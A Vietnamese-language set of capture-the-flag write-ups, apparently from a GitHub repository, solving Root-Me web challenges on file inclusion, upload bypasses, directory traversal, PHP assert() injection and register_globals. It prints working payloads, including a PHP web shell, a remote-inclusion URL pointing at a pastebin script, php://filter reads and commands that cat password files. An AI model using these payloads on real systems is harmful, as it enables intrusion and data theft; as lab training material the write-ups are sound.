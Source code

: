 # Mục lục


1	[Local File Inclusion](#01)

2	[Local File Inclusion- Double Encoding](#02)

3	[Local File Inclusion - Wrappers](#03)

4	[Remote File Inclusion](#04)

5	[HTTP - Directory indexing](#05)

6	[File upload - Double extensions](#06)

7	[File upload - MIME type](#07)

8	[Directory traversal](#08)

9	[PHP - assert()](#09)

10 [PHP - Filters](#10)

11	[PHP - register globals](#11)










<a name=01></a>
### Local File Inclusion
![image](https://user-images.githubusercontent.com/77602549/164174516-0f929bb8-5a10-4fdc-8b86-d54a5687dc73.png)


![image](https://user-images.githubusercontent.com/77602549/164175580-fb16a8e5-ccde-49c6-9efc-9dddf4473bd8.png)

Vậy thư mục admin nằm ngay trong thư mục root.
Ta phải lấy được source code của file index.php

Chúng ta thử dần các payload sau:
  
  + ?files=sysadm&f=/admin/index.php cái này khỏi thử, không có chuyện admin nằm trong đây đâu
  + ?files=sysadm&f=../index.php cái này khỏi thử, nếu admin nằm ngoài đây thì sysadm sẽ thành web-serveur/ch16/admin/sysadm/ rồi, nhưng cũng đáng thử, để biết chall có chặn .. không
  + ?files=sysadm&f=../admin/index.php lỗi file_get_contents(): Filename cannot be empty
  + ?files=sysadm&f=../../admin/index.php di chuyển ra thêm một thư mục nữa -BOOM- ta được source code của file index

![image](https://user-images.githubusercontent.com/77602549/164176305-bc555b84-c24b-4c7d-8c1d-e216cb9ed005.png)




<a name=02></a>
## Local File Inclusion - Double encoding

![image](https://user-images.githubusercontent.com/77602549/164176760-d250d227-f597-4e7c-912a-d9c945de213f.png)


We will use php://filter with base64 encoding

php://filter/convert.base64-encode/resource=cv

after double encoding

php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv




http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf


![image](https://user-images.githubusercontent.com/77602549/164178518-8fb1d70b-6565-4528-8787-7cbd74f7fb66.png)


<a name=03></a>
## Local File Inclusion - Wrappers

![image](https://user-images.githubusercontent.com/77602549/164179748-a96d3d97-6d31-40f9-af6c-74999959a7ec.png)


![image](https://user-images.githubusercontent.com/77602549/164187956-623d7d22-ac08-4ac2-900a-33fab04896fe.png)



<?php $data = file_get_contents(“index.php”); echo $data; ?>


https://vietjack.com/php/ham_scandir_trong_php.jsp



![image](https://user-images.githubusercontent.com/77602549/164188168-fa5d727f-740a-4cab-81c6-33df0d0a3d09.png)



name too long
![image](https://user-images.githubusercontent.com/77602549/164188972-82a3d7f6-414d-42d3-b66a-591f08f132bc.png)

```
<?php 
   $path = getcwd();
   $items = scandir($path);
   
   echo "<p>Content of $path</p>";
   echo '<ul>';
   foreach ($items as $item) {
       echo '<li>' . $item . '</li>';
   }
   echo '</ul>';  
?>

```

![image](https://user-images.githubusercontent.com/77602549/164195162-1aafd712-1969-40f5-9b04-0de766c9ccaf.png)



![image](https://user-images.githubusercontent.com/77602549/164193342-b6c70f3b-fbed-44e0-9f25-295b4e399444.png)


```
<?php
   show_source('flag-mipkBswUppqwXlq9ZydO.php'); 
?>
```

<a name=04></a>
## Remote File Inclusion



ĐIỀU QUAN TRỌNG VỚI DẠNG BÀI REMOTE FILE INCLUSION NÀY , TA PHẢI INCLUDE 1 FILE TỪ WEB SERVER KHÁC !

![image](https://user-images.githubusercontent.com/77602549/164913369-8c5bb10e-4b20-4d0f-94b6-c4971bb94b8f.png)


Dùng 1 server khác để get tham số là câu lệnh <?php echo file_get_contents ('index.php')?>

Mình sẽ đề xuất sử dụng https://pastebin.com/ vì nó khá là tiện 


?lang=https://pastebin.com/raw/LjpyDxwq?

Chúng ta có thể thấy được source của file index.php như sau: 


![image](https://user-images.githubusercontent.com/77602549/164913436-ad52a7cf-d6ec-4717-ba67-3a515c17e02e.png)



<a name=05></a>

## HTTP - Directory indexing

![image](https://user-images.githubusercontent.com/77602549/164369902-07dcd33e-d61f-4803-ab1a-8bb4d676ee70.png)



![image](https://user-images.githubusercontent.com/77602549/164369994-0717f0f4-9d35-4d32-896d-e20f1ec686ec.png)



![image](https://user-images.githubusercontent.com/77602549/164369921-1623f8fd-d2b4-4ad5-aed4-0ef04884f0c9.png)


<a name=06></a>

## File upload - Double extensions

![image](https://user-images.githubusercontent.com/77602549/164371548-8de896ab-5b5a-417e-88b2-161fa7313293.png)


<?php

$data = system($_GET["cmd"]);
echo $data;

?>

![image](https://user-images.githubusercontent.com/77602549/164960644-b3a34d8c-6c4d-49db-afef-ee43889d87ab.png)


![image](https://user-images.githubusercontent.com/77602549/164960537-34859513-220c-40d9-ac16-164c956ae834.png)



?cmd=ls -la


![image](https://user-images.githubusercontent.com/77602549/164960705-8ba8b453-9ac8-4368-a798-a2b3c1d47d97.png)


?cmd=ls -la?cmd=cat ../../../.passwd


![image](https://user-images.githubusercontent.com/77602549/164960719-3c6f6c01-c6e1-4f1b-9e35-59178a2cd8be.png)

<a name=07></a>

## File upload – MIME type

![image](https://user-images.githubusercontent.com/77602549/164523876-fdd1951d-9f97-4e9e-b4d3-604da8d6cda5.png)
[Mine type](https://wiki.tino.org/mime-type-la-gi/)

![image](https://user-images.githubusercontent.com/77602549/164966150-7ea79496-ffd0-4ef9-b6c8-53c0a297d1d5.png)


Chổ Content-type nó sẽ định nghĩa kiểu dữ liệu mà bạn sẽ upload lên, thay thành image/png nó sẽ hiểu đó là ảnh chứ không phải php file.

![image](https://user-images.githubusercontent.com/77602549/164966176-4c78ae19-2485-4107-8e98-2dd98b1fc94a.png)


?cmd=cat ../../../.passwd


![image](https://user-images.githubusercontent.com/77602549/164966203-5d38b61b-fa6a-4290-addd-827707167cd1.png)






<a name=08></a>

## Directory traversal

![image](https://user-images.githubusercontent.com/77602549/164531455-7057e609-5ac9-4234-ac38-7b845bd97dcf.png)



![image](https://user-images.githubusercontent.com/77602549/164531414-7525dd8f-ad9d-4613-a76b-8889f2b4b565.png)



<a name=09></a>

## PHP - assert()
![image](https://user-images.githubusercontent.com/77602549/164538756-974ad560-7375-403e-927e-553ec78cc2b4.png)


Assert() được dùng giống như else trong điều kiện if vậy, thường được dùng để debug:

$a = 1; 
assert($a === 1, '$a is not 1'); 
assert($a === 2, '$a is not 1');
Sau vài lần thử thì nhận ra đây là dạng code injection. Template của nó:

$i = "includes/" .$_GET['page'];
$i .= ".php";
assert(strpos($i, '..') === False, 'Detect hacking');


![image](https://user-images.githubusercontent.com/77602549/164540257-9693a9cf-a390-4f01-b3c6-8a116e84374e.png)

home%27%20and%20die(show_source(%27.passwd%27))%20or%20%27

![image](https://user-images.githubusercontent.com/77602549/164540226-f9cc7e33-d0b1-43c8-820e-dfc33750dc17.png)

![image](https://user-images.githubusercontent.com/77602549/164966453-224df2cf-0438-43c8-be9c-5c88931f9528.png)

<a name=10></a>


## PHP - Filters


Bài này cho thấy impact của PHP streams, cụ thể là filter wrapper, là một trong những dạng LFI, đáng nhẽ phải giải bài này trước thì bài Local File Inclusion – Double encoding này mình đã không phải đi kiếm lời giải. Thử dần các trang dưới, output là dạng base64:

inc=php://filter/convert.base64-encode/resource=accueil.php
inc=php://filter/convert.base64-encode/resource=login.php
inc=php://filter/convert.base64-encode/resource=config.php
inc=php://filter/convert.base64-encode/resource=index.php
inc=php://filter/convert.base64-encode/resource=ch12.php
Với trang login.php, sau khi decode base64 thì ta tìm được trang config.php. Flag nằm trong đây:

![image](https://user-images.githubusercontent.com/77602549/164966534-56797e22-78e9-4779-a94a-4f9e01450f44.png)


$username="admin";
$password="DAPt9D2mky0APAF";


<a name=11></a>

## PHP - register globals

Sau vài lần thử thì với biến _SESSION, ta thấy xuất hiện lỗi

http://challenge01.root-me.org/web-serveur/ch17/?_SESSION=qwerty1234567890
Warning: Illegal string offset 'logged' in /challenge/web-serveur/ch17/index.php on line 11
Vậy ta biết phần tử trong biến _SESSION là logged, ta thử link dưới rồi bấm enter mà không cần nhập password vào

http://challenge01.root-me.org/web-serveur/ch17/?_SESSION.logged=1 # FAIL, PHP ko set như vầy
http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1


![image](https://user-images.githubusercontent.com/77602549/164966789-3aa4e45f-195a-42ac-9d5b-c020d7ff4234.png)





